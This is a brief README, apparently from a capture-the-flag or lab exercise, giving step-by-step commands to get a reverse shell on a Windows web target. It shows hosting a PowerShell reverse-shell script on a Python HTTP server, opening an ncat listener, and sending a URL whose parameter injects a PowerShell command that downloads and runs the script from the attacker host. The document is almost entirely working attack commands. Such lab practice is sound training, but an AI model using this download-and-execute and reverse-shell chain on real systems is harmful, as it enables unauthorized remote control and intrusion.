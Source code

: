 ## haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

### 1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
```
sudo python3 -m http.server 80
```
### 2. create ncat listener for shell
```
sudo rlwrap nc -nvlp 443
```
### 3. go to the updates url we went to with the sqli injection and start that script (update ip if needed)
```
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
```
